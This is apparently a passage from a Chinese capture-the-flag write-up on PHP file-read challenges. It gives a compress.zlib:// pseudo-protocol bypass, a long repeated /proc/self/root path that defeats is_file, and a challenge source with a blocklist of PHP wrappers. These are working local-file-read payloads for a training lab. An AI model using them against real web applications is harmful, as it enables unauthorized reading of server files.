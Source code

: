 ```php
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

这题相比上题把filter过滤了

我们可以考虑使用其他伪协议

如 compress.zlib://

```
compress.zlib://flag.php
```



**官方题解** 目录溢出导致is_file认为这不是一个文件

```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php
```



#### web114

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 15:02:53

*/

error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```
